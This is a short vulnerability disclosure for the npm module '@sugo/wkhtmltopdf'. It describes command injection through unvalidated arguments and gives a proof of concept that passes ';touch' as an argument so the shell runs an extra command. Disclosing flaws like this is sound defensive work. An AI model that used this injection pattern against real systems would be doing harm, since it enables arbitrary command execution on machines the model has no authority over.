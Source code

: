 # :bug: Description

The `@sugo/wkhtmltopdf` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var wkp = require("@sugo/wkhtmltopdf")
wkp.wkhtmltopdf("test", [';touch', 'HACKED']);

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i @sugo/wkhtmltopdf # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
